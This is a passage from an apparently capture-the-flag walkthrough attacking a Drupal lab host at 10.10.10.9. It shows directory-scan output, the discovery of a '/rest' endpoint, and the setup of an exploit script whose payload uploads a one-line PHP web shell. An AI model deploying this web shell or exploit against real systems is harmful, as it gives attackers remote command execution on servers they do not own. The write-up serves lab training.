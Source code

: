     [11:50:50] 200 -   18KB - /license.txt
    [11:50:50] 200 -   18KB - /License.txt
    [11:52:47] 200 -    9KB - /MAINTAINERS.txt
    [11:54:06] 301 -  146B  - /misc  ->  http://10.10.10.9/misc/
    [11:54:23] 301 -  149B  - /modules  ->  http://10.10.10.9/modules/
    [11:56:18] 200 -    7KB - /node
    [12:01:11] 301 -  150B  - /profiles  ->  http://10.10.10.9/profiles/
    [12:01:57] 200 -    5KB - /README.txt
    [12:01:57] 200 -    5KB - /Readme.txt
    [12:01:57] 200 -    5KB - /readme.txt
    [12:02:32] 200 -    2KB - /robots.txt
    [12:02:37] 200 -   62B  - /rest/
    [12:03:08] 301 -  149B  - /scripts  ->  http://10.10.10.9/scripts/
    [12:03:08] 301 -  149B  - /Scripts  ->  http://10.10.10.9/Scripts/
    [12:05:43] 301 -  147B  - /sites  ->  http://10.10.10.9/sites/
    [12:10:34] 301 -  148B  - /themes  ->  http://10.10.10.9/themes/
    [12:12:16] 200 -   10KB - /UPGRADE.txt
    [12:12:58] 200 -    7KB - /user
    [12:13:01] 200 -    7KB - /user/
    [12:13:07] 200 -    7KB - /user/login/
    [12:16:25] 200 -   42B  - /xmlrpc.php

    Task Completed



I'll see the `/rest` is a valid path. When I check it out, it gives me
the endpoint:



    root@kali# curl http://10.10.10.9/rest
    Services Endpoint "rest_endpoint" has been setup successfully.



I'll update the script:



    $url = 'http://10.10.10.9';
    $endpoint_path = '/rest';
    $endpoint = 'rest_endpoint';

    $file = [
        'filename' => '0xdf.php',
        'data' => '<?php system($_REQUEST["cmd"]); ?>'
    ];



#### Execution

Before I run it, I will need to make sure php-curl is installed:
`apt install php-curl`

I also need to fix a couple places where comments seem to have wrapped
onto the next line. Once I get all that, I can run it:

